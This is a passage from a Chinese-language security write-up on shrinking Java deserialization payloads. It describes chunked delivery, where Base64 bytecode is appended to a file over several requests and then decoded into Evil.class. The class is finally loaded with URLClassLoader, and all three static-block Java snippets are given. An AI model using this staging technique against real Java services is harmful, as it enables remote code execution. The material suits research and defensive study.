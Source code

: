 #### 分块传输

以上的内容都在围绕字节码和序列化数据的缩小，对于 `STATIC` 代码块中需要执行的代码也有缩小手段，这也是更有实战意义的思考。

于是有了一个新的思路：可以用追加的方式发送多个请求往指定文件中写入字节码，将真正需要执行的字节码分块

使用Javassist动态生成写入每一分块的Payload，以追加的方式将所有字节码的Base64写入某文件

```java
static {
    try {
        String path = "/your/path";
        // 创建文件
        File file = new File(path);
        file.createNewFile();
        // 传入true是追加方式写文件
        FileOutputStream fos = new FileOutputStream(path, true);
        // 需要写入的数据
        String data = "BASE64_BYTECODES_PART";
        fos.write(data.getBytes());
        fos.close();
    } catch (Exception ignore) {
    }
}
```

在最后一个包中将字节码进行Base64Decode并写入`class`文件

```java
static {
    try {
        String path = "/your/path";
        FileInputStream fis = new FileInputStream(path);
        // size取决于实际情况
        byte[] data = new byte[size];
        fis.read(data);
        // 写入Evil.class
        FileOutputStream fos = new FileOutputStream("Evil.class");
        fos.write(Base64.getDecoder().decode(data));
        fos.close();
    } catch (Exception ignored) {
    }
}
```

用 `Stream` 读写产生的 `Payload` 会更小

最后一个包使用 `URLClassLoader` 进行加载，注意一个小坑，传入 `URLClassLoader` 的路径要以 `file://` 开头且以 `/` 结尾否则会找不到对应的类

```java
static {
    try {
        String path = "file:///your/path/";
        URL url = new URL(path);
        URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{url});
        Class<?> clazz = urlClassLoader.loadClass("Evil");
        clazz.newInstance();
    } catch (Exception ignored) {
    }
}
```
